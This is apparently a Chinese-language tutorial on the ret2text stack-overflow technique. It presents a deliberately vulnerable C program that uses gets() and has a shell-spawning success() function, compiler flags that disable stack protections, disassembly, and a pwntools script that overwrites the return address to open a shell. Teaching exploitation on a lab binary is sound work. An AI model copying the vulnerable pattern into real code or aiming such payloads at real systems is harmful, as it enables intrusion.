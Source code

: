 ```yaml
---
title: "ret2text"
date: 2024-06-01
draft: false
categories: ["pwn"]
tags: ["pwn", "rop", "stack overflow"]
series: ["rop"]
series_order: 1
---
```

返回到文本段（Return to text segment）攻击，这是一种利用程序中的可执行代码段（text segment）来执行恶意操作的攻击。这种技术有几个基本前提：

- 程序中的某些代码位置是可预测的，同时在不同运行时是固定的
- 只需要利用程序的现有代码，无需注入新的代码

可以通过一个简单的例子说明这个问题：

```c
// example.c
#include <stdio.h>
#include <stdlib.h>

int success()
{
    puts("called success()!\n");
    return system("/bin/sh");
}

void vuln()
{
    char buf[32];

    gets(buf);
    puts(buf);
}

int main()
{
    vuln();
    return 0;
}

```

上述代码中的库函数 `gets` 是一个危险函数，通过以下给出的 `gets` 的一个实现，可以看出这个函数引起的严重问题。它从标准输入（stdin）读入一行，在遇到一个回车或某个错误时停止。`gets` 从不检查输入的长度，这导致它很容易被利用来进行栈溢出。

```c
/* Read a newline-terminated string from stdin into S,
   removing the trailing newline.  Return S or NULL.  */
char * gets (char *s)
{
  register char *p = s;
  register int c;
  FILE *stream = stdin;
  if (!__validfp (stream) || p == NULL)
    {
      __set_errno (EINVAL);
      return NULL;
    }
  if (feof (stream) || ferror (stream))
    return NULL;
  while ((c = getchar ()) != EOF)
    if (c == '\n')
      break;
    else
      *p++ = c;
  *p = '\0';
  /* Return null if we had an error, or if we got EOF
     before writing any characters.  */
  if (ferror (stream) || (feof (stream) && p == s))
    return NULL;
  return s;
}

```

通过 gcc 编译上述代码

```sh
$ gcc -std=c99 \            # 使用 C99 标准，C99 之后不支持 gets 函数
    -no-pie \               # 关闭地址随机化
    -fno-stack-protector \  # 关闭栈破坏检测
    -z execstack \          # 关闭栈不可执行
    example.c -o example
```

可以利用 checksec 来检查编译出文件的安全性

```sh
$ checksec example
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

使用 IDA 反汇编程序，我们可以看到对应函数的汇编表示，

```assembly
; Attributes: bp-based frame

public vuln
vuln proc near

s= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 20h
lea     rax, [rbp+s]
mov     rdi, rax
call    _gets
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
nop
leave
retn
; } // starts at 40116A
vuln endp
```

可以看出当程序运行时，`vuln` 函数在运行时的栈帧如下所示。如果提供大于32字节的数据时栈帧中保存的栈指针和返回地址。因此我们可以输入大于32字节的数据来覆盖返回地址，从而控制程序的执行流。

```markdown
|      rsp       |
|:--------------:|
|  char buf[0]   |
|      ...       |
|  char buf[31]  |
|:--------------:|
|      rbp       |
|:--------------:|
| return address |
```

以下是利用 pwntools 编写的 wp:

```python
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
sh = process('./example')

# gdb.attach(sh)

success_addr = 0x401146
payload = b'a' * 0x20 # buf[32]
payload += b'b' * 8 # rbp
# 伪造返回地址，跳转到 nop ; ret，Ubuntu18及以上版本的系统要求在调用system函数时栈16字节对齐，
# 即调用system函数时rsp的值必须是16的倍数，也就是末位为0，否则无法执行。这里多进行一次 rtn 以实现对齐
payload += p64(0x40112f)
payload += p64(success_addr) # success 函数地址

sh.sendline(payload)
sh.interactive()
```

> NOTE:
>
> 上述代码中，没有立即跳转到 `success()` 的运行地址，这是源于 `system()` 函数运行时的**栈16字节对齐**要求。

